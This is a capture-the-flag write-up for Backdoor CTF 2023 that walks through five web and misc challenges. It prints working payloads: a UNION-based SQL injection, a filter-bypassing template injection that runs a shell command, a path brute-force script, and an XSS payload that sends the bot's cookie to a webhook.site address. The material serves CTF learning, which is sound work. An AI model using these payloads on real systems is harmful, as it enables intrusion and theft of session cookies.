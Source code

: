 ```yaml
---
title: "Backdoor CTF 2023"
description: "Writeup for challenges in Backdoor CTF 2023"
summary: "Writeup for challenges in Backdoor CTF 2023"
categories: ["Writeup"]
tags: ["Web Exploitation","Misc", "CTF"]
#externalUrl: ""
date: 2023-12-18
draft: false
---
```


<!-- .slide: style="font-size: 12px;" -->


<h1>Backdoor CTF 2023 - Writeup Challenges</h1>

**Table of Contents**
[TOC]

## web/too-many-admins
![image](https://hackmd.io/_uploads/Bylp_-C8T.png)

This chall gives me a source. When read `index.php` i saw this line:
```php=
if($userParam){
    if($userParam !=  "all"){
    $query = "SELECT username, password, bio FROM users where username = '$userParam' ";
    }else{
    $query = "SELECT username, password, bio FROM users ";

    }
    $result = $conn->query($query);
```

So it is simple SQL Injection and the flag is hide in the random admin's bio.

```sql=
CREATE PROCEDURE GenerateRandomUsers()
BEGIN
    DECLARE i INT DEFAULT 0;
    WHILE i < 500 DO
        IF i = {SOME_NUMBER} THEN
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                'REDACTED',
                'Flag{REDACTED}'
            );
        ELSE
            INSERT INTO users (username, password, bio)
            VALUES (
                CONCAT('admin', i),
                MD5(CONCAT('admin',i,RAND())),
                CONCAT('Bio for admin', i)
            );
        END IF;
        SET i = i + 1;
    END WHILE;
END //
DELIMITER ;
```

Final payload:
`http://34.132.132.69:8000/?user=admin0' UNION SELECT username, bio, password FROM users where INSTR(bio,'flag{')-- -`
![image](https://hackmd.io/_uploads/H13DTkAUT.png)
Flag: `flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}`

## web/Unintelligible-Chatbot
![image](https://hackmd.io/_uploads/Hka6uZCLp.png)


This web gives me a chatbox with bot and then show the result to user. 
![image](https://hackmd.io/_uploads/Sy1p610IT.png)
When i saw that. i think about SSTI (Server-side template injection). So i try `{{7*7}}` first.
![image](https://hackmd.io/_uploads/BJkK01CIT.png)
Bingo. But this chall has filter some characters so i need to bypass filter to get the flag. You can refer how to bypass the filter from the documentation at [this link](https://hackmd.io/@Chivato/HyWsJ31dI). Idea to bypass that you change the blacklist word into hex and use attr to bypass dot. 
Final payload:
`{{"foo"|attr('\137\137\143\154\141\163\163\137\137')|attr('\137\137\142\141\163\145\137\137')`
`|attr('\137\137\163\165\142\143\154\141\163\163\145\163\137\137')()|attr('\137\137\147\145\164\151\164\145\155\137\137')(352)|attr('\137\137\151\156\151\164\137\137')|attr('\137\137\147\154\157\142\141\154\163\137\137')`
`|attr('\137\137\147\145\164\151\164\145\155\137\137')("os")|attr('popen')('cat flag')|attr('read')()}}`
![image](https://hackmd.io/_uploads/Hk2x8xCIa.png)
Flag: `flag{n07_4n07h3r_5571_ch4ll3n63}`

## web/space-war

![image](https://hackmd.io/_uploads/r1VSUl0I6.png)

The challenge gives me a description with these letters are written in uppercase so i think the username is in the path of server. And we need to brute a little bit. Simple script to get the username:

```python=
import requests
import string

username = ""
while True:
    for char in (string.ascii_letters + string.digits):
        url = f"http://34.132.132.69:8005/{username+char}"
        res = requests.get(url=url)
        if "You are on a wrong path, This doesn't exist" not in res.text:
            username+=char
            print("[+] Founded a char: " + username)
```

![image](https://hackmd.io/_uploads/HJbTxZCL6.png)
Then add a simple SQL injection to bypass. `" or 1=1; -- -` to get the flag. 
![image](https://hackmd.io/_uploads/B1ki_-R8T.png)

Flag: `flag{1_kn0w_y0u_will_c0me_b4ck_S0M3DAY_0dsf513sg445s}`

## misc/halo-jack

![image](https://hackmd.io/_uploads/SJS1w-1vT.png)

This challenge takes me a lot of time ~~(Guessy maybe)~~. And then i think about brute force all the commands that can use in my shell. And then i saw that `lssr` and `pr` can be used [here](https://pypi.org/project/lssr/0.3.0/) and [here](https://www.ibm.com/docs/ro/aix/7.2?topic=p-pr-command). After research i saw that `lssr` and `pr` is alternative ls command and cat command.
![image](https://hackmd.io/_uploads/BJPuPQJDa.png)

> Flag is in lovebirds.txt. 

![image](https://hackmd.io/_uploads/By1jw7Jwa.png)
Flag: `flag{th3_4uth0rs_4r3_1n_l0v3_w1th34ch_0th3r}`

## web/armoured-notes


I think about XSS injection when this web gives me a bot to visit the url i give. So the idea is giving the url have xss to take the bot cookie (which is the flag). The first thing we need to bypass isAdmin. 

Source code route report and posts:
```js=
app.post("/report", async (req, res, next) => {
    const { url } = req.body;
    if (!url) {
      return res.status(400).send({ msg: "Url is missing." });
    }
    if (!RegExp(urlRegex).test(url)) {
      return res
        .status(422)
        .send({ msg: "URL din't match this regex format " + bot.urlRegex });
    }
    if (await bot(url)) {
      return res.send({ msg: "Admin successfully visited the URL." });
    } else {
      return res.status(500).send({ msg: "Admin failed to visit the URL." });
    }
  });

  app.get("/posts/:id", async (req, res, next) => {
    try {
      const post = await diaryCollection.findOne({
        _id: new ObjectId(req.params.id),
      });
      if (!post) {
        return res.status(404).json({ code: "err" });
      }
      const url = req.originalUrl;

      let template;
      template = fs.readFileSync(resolve("views/post.html"), "utf-8");
      template = await vite.transformIndexHtml(url, template);
      const render = (await vite.ssrLoadModule("/utils/router.js")).render;

      const appHtml = await render(url, __dirname, req);

      const html = template.replace(`<!--app-html-->`, appHtml);

      res.status(200).set({ "Content-Type": "text/html" }).end(html);
    } catch (e) {
      res.status(500).end(e.stack);
    }
  });
```

After read a source a little bit a see this:

```js=
app.post("/create", async (req, res, next) => {
    let obj = duplicate(req.body);

    if (obj.uname === "admin" && obj.pass == process.env.PASSWORD) {
      obj.isAdmin = true;
    }
    if (obj.isAdmin) {
      const newEntry = req.body;

      try {
        const result = await diaryCollection.insertOne(newEntry);
        return res.json({ code: result.insertedId });
      } catch (err) {
        console.error("Failed to insert entry", err);
        return res.status(500).json({ code: "err" });
      }
    }
    return res.json({ code: "err" });
  });
  app.post("/save", async (req, res, next) => {
    let { id, message } = req.body;

    try {
      await diaryCollection.updateOne(
        { _id: new ObjectId(id) },
        { $set: { message: message } }
      );
      return res.json({ code: "success" });
    } catch (err) {
      console.error("Failed to update diary entry", err);
      return res.status(500).json({ code: "err" });
    }
  });
```

Let check how the duplicate function is defined.

```js=
export function duplicate(body) {
    let obj={}
    let keys = Object.keys(body);
    keys.forEach((key) => {
      if(key !== "isAdmin")
      obj[key]=body[key];
    })
    return obj;
  }
```
It takes an object (body) as an argument and returns a new object (obj) with the same properties as the input object, excluding the property with the key "isAdmin". It uses the Object.keys method to iterate over the keys of the input object and creates a new object without including the "isAdmin" property. It looks like prototype pollution that we can inject isAdmin when post `/create`.

![image](https://hackmd.io/_uploads/Hkjn-bxDT.png)

So i create a id that can give to bot url to visit. But how to take the admin cookie? After searching about vitejs xss injection i see [this](https://github.com/vitejs/vite/security/advisories/GHSA-92r3-m2mg-pj97?cve=title). The last thing to do is build a payload send to my server to get the flag. 
Final payload: `http://34.132.132.69:8001/posts/658276ae99d634eec4c73710/?"></script><script>location='https://webhook.site/394f8039-82d9-432f-b9f0-b62b8cff5ce4/'+document.cookie</script>`

![image](https://hackmd.io/_uploads/SJ8XQ-lva.png)

Flag: `flag{pR0707yP3_p0150n1n9_AND_v173j5_5ay_n01c3_99}`
